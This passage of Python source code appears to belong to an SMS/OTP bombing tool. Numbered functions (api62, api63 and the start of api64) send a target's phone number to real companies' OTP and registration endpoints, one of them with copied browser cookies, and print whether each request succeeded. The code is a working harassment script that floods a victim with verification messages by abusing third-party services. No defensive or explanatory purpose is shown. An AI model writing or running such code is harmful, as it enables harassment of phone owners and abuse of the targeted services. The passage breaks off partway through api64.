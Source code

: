 def api62(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.get(f"https://users.cars24.co.th/oauth/consumer-app/otp/{phone[1:]}?gaClientId=2050278932.1666930228&user-type=buyer&lang=th",headers={"user-agent": "Mozilla/5.0 (Linux; Android 6.0.1; SM-J700F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Mobile Safari/537.36","cookie": "_gcl_au=1.1.786653043.1666930228;_gid=GA1.3.2033124357.1666930228;_dc_gtm_UA-65843992-28=1;_ga=GA1.3.2050278932.1666930228;_gaexp=GAX1.3.wdMsU-TcQXeB5H9GO-G4Tw.19357.1!AoYo68DrQk-jlcseD-b4FQ.19330.2!mDL1fU8cRPmYzvHq-QSfqg.19330.2;_fbp=fb.2.1666930233269.696060227;_hjSessionUser_2738441=eyJpZCI6IjA3ODJhN2RlLTEyNGItNWFjNy05MmE3LTcwNWE0YTllNTJiMSIsImNyZWF0ZWQiOjE2NjY5MzAyMzI3NzIsImV4aXN0aW5nIjpmYWxzZX0=;_hjFirstSeen=1;_hjSession_2738441=eyJpZCI6ImY1MzllZDk0LWJlMjQtNDM0ZS05OGY1LWI0ODZhM2MzYTBkMiIsImNyZWF0ZWQiOjE2NjY5MzAyMzMzNTMsImluU2FtcGxlIjp0cnVlfQ==;_hjAbsoluteSessionInProgress=1;cto_bundle=YVwhbF9hWWRuREsxRm5VZnFpWGVpM0FxdGNTZ201Y2s5REUyT2pxVVVqNGZiS2pQaG5meXN2SXVLMzBCJTJGS3BuNWV4WGklMkY0ZjQxT2tRQnQ1ZkRzU0NibTd3MGxNTFViSDRRR1BrU21vdm5YcyUyRm1Da0xWaXRXayUyRlpBYmV5MUlBMjNaUVJYMmVncnJOajUwa0t6ZndWJTJCcmMzYzBRJTNEJTNE;_ga_7VGYE5TTVG=GS1.1.1666930228.1.1.1666930253.35.0.0"})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api63(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://api.monkeyeveryday.com/graphql",headers={"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36","content-type": "application/json"},json={"operationName":"requestRegistrationOtp","variables":{"phone":phone},"query":"mutation requestRegistrationOtp($phone: String!) {\n  requestRegistrationOtp(phone: $phone) {\n    token\n    __typename\n  }\n}\n"})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api64(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
